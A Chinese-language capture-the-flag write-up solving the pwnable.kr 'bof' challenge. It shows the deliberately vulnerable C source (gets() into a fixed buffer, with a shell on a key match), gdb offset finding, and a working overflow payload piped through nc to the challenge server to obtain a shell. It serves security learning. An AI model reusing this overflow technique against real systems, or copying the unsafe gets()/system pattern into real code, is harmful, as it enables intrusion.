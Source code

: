 ```yaml
---
layout: default
title: pwnable_bof
parent: pentrue-test
nav_order: 1
---
```


# pwnable bof
Source :
- [pwnable.kr](http://pwnable.kr/play.php)
---
## fuzzer 模糊字串產生方便debug
```python
import string
import random
def id_generator(size=6, chars=string.ascii_uppercase + string.digits):
    return ''.join(random.choice(chars) for _ in range(size))
 
# 執行結果
>>> id_generator()
'G5G74W'
>>> id_generator(3, "6793YUIO")
'Y3U'
```
## 程式原始碼
``` c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
---
```
-  smash me!
-  if(key == 0xcafebabe)......
-  觀察key的位址直接修改

---
## solution

### gdb
```asm
b func
```
![bof1](https://github.com/Larry-Huang/bof4/blob/master/bof1.JPG?raw=true)
```asm
##此處跳轉
cmp DWORD PTR [ebp+8],0xcafebabe
```
![bof2](https://github.com/Larry-Huang/bof4/blob/master/bof2.JPG?raw=true)
```asm
##覆蓋key的位址
##計算後要52+4
'A'*52+ \xbe\xba\xfe\xca
```
![bof3](https://github.com/Larry-Huang/bof4/blob/master/bof3.JPG?raw=true)
```asm
##修改OK
```
![bof4](https://github.com/Larry-Huang/bof4/blob/master/bof4.JPG?raw=true)
```python
#debug 
python -c "print 'A'*52+'\xbe\xba\xfe\xca'" > input.txt
#gdb
r < input.txt
#nc pwnable.kr 9000
#keep stding with python 
cat <(python -c "print 'A'*52+'\xbe\xba\xfe\xca'") - | nc pwnable.kr 9000
```




